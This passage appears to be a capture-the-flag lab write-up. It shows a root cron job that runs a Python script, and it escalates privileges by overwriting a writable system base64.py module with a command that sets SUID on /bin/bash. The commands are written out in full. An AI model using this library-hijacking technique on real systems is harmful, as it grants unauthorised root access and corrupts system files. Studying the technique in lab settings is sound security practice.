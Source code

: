```tsx
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

The `/etc/crontab` shows us that the system automatically execute the file `photosEncrypt.py` by **************python3************** as `root` privilege → Read the file content first

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

The file convert the data from `.jpg` files to `.enc` files with `base64` encoding. Unfortunately, we don’t have the permission to modify the file. However, there is another thing that might be exploited which is `base64` imported module:

```tsx
valley@valley:/home$ find / -type f -name "base64.py" -ls 2>/dev/null
   263097     20 -rwxrwxr-x   1 root     valleyAdmin    20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
     3929     20 -rwxr-xr-x   1 root     root           20382 Nov 14  2022 /snap/core20/1828/usr/lib/python3.8/base64.py
     3906     20 -rwxr-xr-x   1 root     root           20382 Jun 22  2022 /snap/core20/1611/usr/lib/python3.8/base64.py
```

Checking the permission on the file module and luckily the file is writable → Inject it by using the `os.system` to **********************************************change the access mode (**********************************************`chmod`) of the file with ********SUID******** permission

```tsx
valley@valley:/home$ echo "import os;os.system('chmod u+s /bin/bash')" > /usr/lib/python3.8/base64.py
```

Wait for a second and check the injected service `/bash` whether it has `suid` permission
